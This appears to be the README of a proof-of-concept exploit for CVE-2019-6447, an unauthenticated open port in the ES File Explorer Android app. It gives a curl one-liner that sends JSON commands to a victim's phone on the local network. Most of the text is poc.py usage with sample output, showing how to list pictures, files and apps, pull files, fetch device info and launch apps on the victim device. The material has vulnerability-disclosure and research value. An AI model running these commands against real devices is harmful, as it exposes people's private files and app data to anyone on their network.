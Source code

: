 # ES File Explorer Open Port Vulnerability - CVE-2019-6447
As per their Google Play description:
> ES File Explorer (File Manager) is a full-featured file (Images, Music, Movies, Documents, app) manager for both local and networked use! With over 500 million users worldwide, ES File Explorer (File Manager) helps manage your android phone and files efficiently and effectively and share files without data cost.

Everytime a user is launching the app, a HTTP server is started. This server is opening locally the port 59777:
```console
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

On this port, an attacker can send a JSON payload to the target
```console
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```

These commands allow an attacker **connected on the same local network than the victim**, to obtain a lot of juicy information (device info, app installed, ...) about the victim's phone, **remotely get a file** from the victim's phone and **remotely launch an app** on the victim's phone.

## Affected Versions
4.1.9.7.4 and below

## POC Features
With the following Proof Of Concept (POC), you can:
- List all the files in the sdcard in the victim device
- List all the pictures in the victim device
- List all the videos in the victim device
- List all the audio files in the victim device
- List all the apps installed in the victim device
- List all the system apps installed in the victim device
- List all the phone apps installed in the victim device
- List all the apk files stored in the sdcard of the victim device
- List all the apps installed in the victim device
- Get device info of the victim device
- Pull a file from the victim device
- Launch an app of your choice
- Get the icon of an app of your choice

## Demo
[![Demo](http://img.youtube.com/vi/z6hfgnPNBRE/0.jpg)](http://www.youtube.com/watch?v=z6hfgnPNBRE)

## How To
```console
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py list

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info
appPull: Pull an app from the device. Package name parameter is needed
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip, the investigation and the POC has been made with ❤️ by @fs0c131y
